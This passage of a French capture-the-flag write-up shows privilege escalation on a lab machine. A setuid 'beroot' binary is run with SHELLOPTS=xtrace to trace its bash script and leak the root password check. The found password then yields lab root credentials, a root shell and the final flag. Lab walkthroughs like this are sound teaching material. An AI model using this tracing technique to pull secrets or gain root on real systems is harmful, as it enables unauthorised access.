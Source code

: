 Mais rien ne semble vulnérable : les paths sont absolus et il n'y a pas de `strcpy`...

Bien sûr le script bash mentionné ne nous est pas non plus accessible. On peut seulement se faire une idée à l'exécution :

```bash
albert@crossroads:/home/albert$ ./beroot
enter password for root
-----------------------

password: yolo
wrong password!!!
```

Heureusemet on peut faire passer une variable d'environnement pour tracer l'exécution du script ce qui a pour effet de voir les commandes exécutées :

```bash
albert@crossroads:/home/albert$ env -i SHELLOPTS=xtrace ./beroot 
+ /usr/bin/clear
TERM environment variable not set.
+ /usr/bin/echo 'enter password for root'
enter password for root
+ /usr/bin/echo -----------------------
-----------------------
+ /usr/bin/echo ''

+ read -p 'password: ' pasw
password: yolo
++ /usr/bin/ls /root/passwd
+ [[ yolo == \l\e\m\u\e\l ]]
+ /usr/bin/echo 'wrong password!!!'
wrong password!!!
```

On voit que le mot de passe attendu est `lemuel`. C'est parti :

```bash
albert@crossroads:/home/albert$ ./beroot
enter password for root
-----------------------

password: lemuel
do ls and find root creds
```

Un fichier a en effet fait son apparition :

```bash
albert@crossroads:/home/albert$ cat rootcreds 
root
___drifting___
albert@crossroads:/home/albert$ su root
Password: 
root@crossroads:/home/albert# id
uid=0(root) gid=0(root) groups=0(root)
root@crossroads:/home/albert# cd /root
root@crossroads:~# ls
beroot.sh  creds  passwd  root.txt
root@crossroads:~# cat root.txt 
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
```